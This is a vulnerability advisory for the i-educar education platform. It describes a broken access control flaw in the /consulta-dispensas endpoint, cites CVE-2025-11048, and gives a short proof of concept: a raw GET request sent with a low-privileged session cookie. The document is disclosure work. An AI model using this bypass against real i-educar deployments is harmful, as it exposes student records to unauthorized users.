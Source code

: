 # Broken Access Control  in `/consulta-dispensas` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/consulta-dispensas` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET /consulta-dispensas`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for permited users .

---

## PoC

1. Authenticate as a non-privileged user.
<img width="1603" height="673" alt="Pasted image 20250914131157" src="https://github.com/user-attachments/assets/6d22ec92-9c03-4561-bb20-ecb9de34af3f" />

<img width="936" height="436" alt="Pasted image 20250821191019" src="https://github.com/user-attachments/assets/e036cea7-c9ae-4c34-9100-4aa03f4bca8f" />

    
2. Send the following request::

```
GET /consulta-dispensas HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function. And, this user, should not do that.

<img width="960" height="816" alt="Pasted image 20250914133014" src="https://github.com/user-attachments/assets/7b646de6-91f0-4d69-8969-ced7c67756c6" />


---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

[CVE-2025-11048](https://www.cve.org/CVERecord?id=CVE-2025-11048)

[VulnDB-326085](https://vuldb.com/?id.326085)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
